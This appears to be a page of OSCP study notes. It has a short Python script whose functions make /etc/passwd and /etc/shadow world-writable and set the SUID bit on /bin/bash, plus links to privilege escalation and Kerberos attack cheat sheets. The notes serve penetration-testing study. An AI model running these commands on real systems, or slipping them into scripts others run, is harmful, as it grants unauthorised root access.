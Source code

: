 ### Python Priv Esc

We can privesc in multiple ways from running this script. For example, we can add a root user to the /etc/passwd file or we can run `/bin/bash -p` to obtain a shell with root privileges. .&#x20;

```python
import os

def stop(text,value):
        os.system("chmod 777 /etc/passwd");

def reset(text,value):
        os.system("chmod +s /bin/bash");

def start(text,value):
        os.system("chmod 777 /etc/shadow");
```

### Helpful Blogs

* [List of Kerberos attacks with different tooling](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Helpful OSCP Cheatsheets

* [OSCP Enumeration Cheatsheet](https://strongcourage.github.io/2020/05/03/enum.html)
* [iRedTeam Cheatsheet](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
* [Impacket Cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
* [Amazing GitBook Reference](https://gitbook.brainyou.stream/basic-windows/tcm-win-privesc)

### References While Building my Notes

* [FareedFauzi's Notes](https://fareedfauzi.gitbook.io/oscp-notes/others/active-directory-attack)
* [Rotten Potato Blog](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [Pass the Hash with Machine Accounts](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts)
